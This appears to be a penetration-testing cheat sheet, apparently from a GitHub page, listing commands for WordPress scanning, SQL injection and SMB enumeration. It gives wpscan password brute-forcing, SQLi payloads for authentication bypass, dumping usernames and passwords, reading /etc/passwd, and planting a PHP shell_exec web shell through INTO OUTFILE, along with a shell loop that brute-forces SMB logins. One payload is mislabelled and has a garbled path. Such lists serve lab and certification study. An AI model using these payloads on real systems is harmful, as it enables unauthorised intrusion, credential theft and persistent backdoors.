 ### Wordpress (`wpscan`)

- Get an API TOKEN from [wpscan.com](https://wpscan.com/wordpress-security-scanner)
    - `export WPSCAN_API_TOKEN=<API_TOKEN>` into `~/.bashrc`
    - in `~/.wpscan/scan.yml`:
        
        ```yaml
        cli_options:
         	api_token: <API_TOKEN>
        ```
        

```bash
# Enumerating users
wpscan --url http://<IP>/ --enumerate u
# Bruteforcing passwords
wpscan --url http://<IP>/ --password-attack wp-login -U admin -P /usr/share/wordlists/seclists/Passwords/darkweb2017-top10000.txt -t 50
```

### Examples of common SQLi payloads

- Authentication bypass ➡️ `' or 1=1 LIMIT 1;#`
- Enumerate version ➡️ `?id=1 union all select 1, 2, @@version`
- Enumerate database user ➡️ `?id=1 union all select 1, 2, user()`
- Enumerate table names ➡️ `?id=1 union all select 1, 2, table_name from information_schema.tables`
- Enumerate users table ➡️ `?id=1 union all select 1, 2, column_name from information_schema.columns where table_name='users'`
- Get usernames and passwords from users table ➡️ `?id=1 union all select 1, username, password from users`
- (Windows) Reading file attempt ➡️ `?id=1 union all select 1, 2, load_file('C:/Windows/System32/drivers/etc/hosts')`
- (Windows) Writing file attempt  ➡️ `?id=1 union all select 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php'`
- (Linux) Reading file attempt ➡️ `?id=1 union all select 1, 2, load_file('/etc/passwd')`
- (Windows) Writing file attempt  ➡️ `?id=1 union all select 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE '/var/ww/html/backdoor.php'`

## TCP Port 445 (SMB - Samba)

- Listing directories: `smbclient -L //<IP>/<Sharename> -U "username%password"`
    - In case of a smb shell, we can download all files by doing:
        
        ```
        smb: \> recurse ON
        smb: \> prompt OFF
        smb: \> mget *
        ```
        
- (Recursive search) Listing directories and permissions: `smbmap -H $TARGET -R | tee smbmap.txt`
- “Manual” bruteforce:
    
    ```bash
    for u in $(cat usernames.txt); do echo "User: $u"; smbclient -L //<IP>/ -U "$u%$u"; done
    ```
    